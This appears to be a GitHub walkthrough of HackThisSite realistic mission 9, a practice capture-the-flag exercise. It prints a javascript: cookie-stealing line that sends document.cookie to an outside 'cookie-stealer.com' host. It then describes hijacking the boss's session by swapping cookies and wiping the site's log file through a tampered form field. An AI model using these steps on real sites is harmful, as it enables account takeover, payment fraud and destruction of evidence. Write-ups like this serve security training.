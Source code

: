 # Mission 9 - CrappySoft Software

## Task description

The boss over at CrappySoft has stopped paying his employees, and your friend is in need of money, fast. Help them get their salary paid.

<details>
  <summary>Full description</summary>


From:

Message: Hey man,
I've heard you're good at hacking, and on the right side of things. So I came looking for you. I really need help, you see, my boss has stopped paying our salaries and I'm going to miss my rent! Please help me get my money, you can reach the site at [Crappy Soft](http://www.hackthissite.org/missions/realistic/9/). They have an online payment system, but only he can use it. Maybe you can get into his account somehow, but for now you can use mine:

Username: r-conner@crappysoft.com
Password: ilovemywork

Thanks man, good luck.

</details>

## Answer

As a first step, I decided to familiarize myself with the site after logging into the account provided. After entering the Private Message tab, a form appeared that allows you to send messages to employees and to your boss. I decided to check the following sectors there:
- source code
- cookies via Inspect -> Data -> Cookies
- response to the sent request

After examining these aspects, I concluded that I might be able to get a cookie that allows the use of the `m-crap` account. To this end, I ran the following command:

```
javascript:void(window.location="https://cookie-stealer.com/steal?cookie=")+document.cookie)
```

How it works:

- `javascript:`: A JavaScript protocol that allows a script to execute in the browser.
- `void`: The void function returns undefined, but is often used in this context to make sure the script is executed without redirecting the page.
- `window.location`: Sets the new location (URL) of the page.
- `“https://cookie-stealer.com/steal?cookie=”+document.cookie`: Creates a URL that sends cookies to the malicious page.

After executing this code, the following message was returned to the page:

`It's beyond the scope of this mission to check the XSS. So, assume you got this cookie:
strUsername=m-crap%40crappysoft.com; strPassword=94a35a3b7befff5eb2a8415af04aa16c; intID=1;`.


The next step was to go to the Pay Salaries website. The first time I went there I didn't have access, so now having username and password I decided to swap them with the currently loaded cookies. The swapped cookies look as follows:

<p align="center">
  <img src="images/changed_cookies.png">
</p>

This allowed the page to load correctly and make the outstanding payment. After completing this step, the following message appeared:

`YHEE THANKS MAN!! Thank's for my salary you really own!!
dont forget to clean the logs by subscribing to them!! `

While browsing the Demo site, I came across a reference to a directory in the code `files/`: `Download <a href=“./files/downloads/CrappyDemo.exe.zip”><font color=“BLACK”><b>HERE!</b></font></a></div>`

I decided to see if I was able to enter this location. It turned out to be possible!

<p align="center">
  <img src="images/files_dir.png">
</p>

There is an interesting directory `logs/`, and in it is a file `logs.txt`. This is most likely the place from where I need to clear the data.

In addition to that, you can also see `mailinglist/` where there is a file responsible for storing email addresses subscribed to the mailing list.

Knowing this information, I went to the Mailing List tab, where I checked the source code. There are `strFilename` and `strEmailAddress` fields in the form. I decided to use them in such a way that:
- `strEmailAddress` field contains an empty value,
- `strFilename` field points to `files/logs/logs.txt`.

This can be seen in the image below:
<p align="center">
  <img src="images/clear_logs.png">
</p>

After clicking on the `Subscribe!` button, the data was erased from the log file, allowing me to complete the task.